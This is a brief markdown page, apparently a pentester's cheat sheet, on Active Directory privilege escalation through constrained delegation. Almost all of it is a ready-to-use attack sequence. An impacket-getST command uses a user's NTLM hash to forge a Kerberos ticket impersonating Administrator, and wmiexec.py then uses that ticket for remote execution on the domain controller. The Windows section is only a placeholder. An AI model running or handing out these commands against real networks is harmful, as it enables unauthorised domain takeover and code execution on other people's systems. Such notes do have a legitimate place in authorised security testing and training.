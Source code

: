 ```yaml
---
title: "AllowedToDelegate"
date: 2024-7-23
tags: ["AllowedToDelegate", "gMSADumper", "active driectory", "ad", "Windows", "privesc"]
---
```


### Privesc #1: Forge a Ticket

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get a service ticket

```console
# For example, spn: www/dc.example.com (Check Bloodhound)
sudo ntpdate -s <DC> && impacket-getST -dc-ip <DC_IP> -spn <SERVICE>/<TARGET_DOMAIN> -hashes :<HASH> -impersonate Administrator '<DOMAIN>/<USER>'
```

#### 2. Remote

```console
export KRB5CCNAME=Administrator.ccache
```

```console
sudo ntpdate -s <DC> && wmiexec.py -k -no-pass administrator@<DC>
```

<small>*Note: impacket-wmiexec may not work*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. TO-DO

```console
TO-DO
```

{{< /tabcontent >}}
